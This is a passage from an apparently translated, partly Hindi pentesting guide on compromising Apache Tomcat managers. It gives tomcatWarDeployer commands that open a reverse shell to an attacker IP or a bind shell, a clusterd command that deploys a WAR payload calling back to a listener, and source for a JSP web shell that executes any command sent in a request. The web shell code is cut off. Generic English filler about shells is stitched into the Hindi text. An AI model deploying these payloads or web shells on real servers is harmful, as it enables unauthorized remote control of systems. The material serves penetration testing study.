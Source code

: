 कुछ स्थितियों में यह काम नहीं करता है (उदाहरण के लिए सन के पुराने संस्करणों में)

#### डाउनलोड करें
```bash
git clone https://github.com/mgeeky/tomcatWarDeployer.git
```
#### रिवर्स शेल

A reverse shell is a type of shell in which the target machine initiates the connection to the attacker's machine. This allows the attacker to gain remote access to the target machine and execute commands. Reverse shells are commonly used in penetration testing and hacking activities.

To create a reverse shell, the attacker needs to set up a listener on their machine and then exploit a vulnerability on the target machine to establish a connection. Once the connection is established, the attacker can interact with the target machine's command prompt and execute commands as if they were physically present on the machine.

Reverse shells can be created using various techniques and tools, such as Netcat, Metasploit, or custom scripts. The choice of technique depends on the specific scenario and the available tools.

It is important to note that reverse shells are considered malicious and unauthorized in most cases. They are used by attackers to gain unauthorized access to systems and carry out malicious activities. As a responsible hacker or penetration tester, it is crucial to obtain proper authorization and follow ethical guidelines when performing any kind of hacking activity.
```bash
./tomcatWarDeployer.py -U <username> -P <password> -H <ATTACKER_IP> -p <ATTACKER_PORT> <VICTIM_IP>:<VICTIM_PORT>/manager/html/
```
#### बाइंड शेल

A bind shell is a type of shell that allows an attacker to gain remote access to a target system. It works by binding a shell to a specific port on the target system, allowing the attacker to connect to that port and gain control over the system. Once the connection is established, the attacker can execute commands on the target system as if they were sitting in front of it. Bind shells are commonly used in network penetration testing to gain unauthorized access to a target system.
```bash
./tomcatWarDeployer.py -U <username> -P <password> -p <bind_port> <victim_IP>:<victim_PORT>/manager/html/
```
### [Culsterd](https://github.com/hatRiot/clusterd) का उपयोग करें
```bash
clusterd.py -i 192.168.1.105 -a tomcat -v 5.5 --gen-payload 192.168.1.6:4444 --deploy shell.war --invoke --rand-payload -o windows
```
### मैन्युअल तरीका - वेब शैल

इस [सामग्री](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp) के साथ **index.jsp** बनाएं:
```java
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
String cmd = request.getParameter("cmd");
String output = "";
if(cmd != null) {
String s = null;
try {
Process p = Runtime.getRuntime().exec(cmd,null,null);
BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
while((s = sI.readLine()) != null) { output += s+"</br>"; }
}  catch(IOException e) {   e.printStackTrace();   }
```